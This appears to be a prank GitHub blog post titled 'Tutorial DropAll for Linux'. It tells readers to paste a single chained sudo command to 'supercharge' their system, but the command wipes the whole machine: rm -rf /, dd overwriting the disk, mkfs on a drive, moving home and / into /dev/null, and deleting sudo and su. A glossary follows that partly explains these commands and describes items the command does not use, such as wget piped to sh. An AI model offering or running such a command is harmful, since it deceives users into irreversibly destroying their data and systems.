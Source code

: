 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: \//camo.githubusercontent.com/b9526efd09cef9f757d819f0fd8fe58a7f0954b8/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f6a516a76344b394f5630426f632f67697068792e676966
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in ls; do mv -f $x $y; y=$x; done find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

\| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.